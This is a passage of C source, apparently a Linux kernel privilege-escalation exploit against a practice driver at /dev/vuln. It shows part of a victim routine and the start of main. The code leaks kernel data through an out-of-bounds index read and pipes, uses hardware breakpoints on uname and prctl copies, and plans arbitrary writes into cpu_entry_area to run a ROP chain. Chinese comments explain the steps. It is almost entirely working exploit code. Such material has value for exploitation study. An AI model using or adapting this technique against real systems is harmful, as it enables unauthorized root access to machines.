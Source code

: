 ```c
        if (!step)
        {
            uname(name);
            if (((size_t *)name)[oob_index])
            {
                success("read oob index!");
                step++;
                write(leak_pipe[1], buffer, 0x400);
            }
        }
        else if (step == 1)
        {
            info("Waiting for rop_pipe...");
            read(rop_pipe[0], buffer, 0x400);
            success("Read content from rop_pipe!");
            step++;
        }
        else
        {
            info("Making rop...");
            prctl(PR_SET_MM, PR_SET_MM_MAP, buffer, sizeof(struct prctl_mm_map), 0);
        }
    }
}

int main()
{
    pid_t pid1, pid2;
    save_status();
    bind_core(0);

    info("Starting to exploit...");
    pipe(leak_pipe);
    pipe(rop_pipe);

    buffer = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (buffer < 0)
    {
        err_exit("Failed to mmap");
    }

    dev_fd = open("/dev/vuln", O_RDWR);
    if (dev_fd < 0)
    {
        err_exit("Failed to open /dev/vuln.");
    }

    // 创建一个子进程victim，在上面设置硬件断点
    // 待会会在victim中通过uname和prctl来触发copy_to_user和copy_from_user
    info("Creating victim...");
    pid1 = fork();
    if (!pid1)
    {
        victim();
        exit(0);
    }
    else if (pid1 < 0)
    {
        err_exit("Failed to create victim.");
    }

    // 创建一个子进程trigger，只做一件事就是无限任意地址写cpu_entry_area中的rcx
    info("Creating trigger");
```
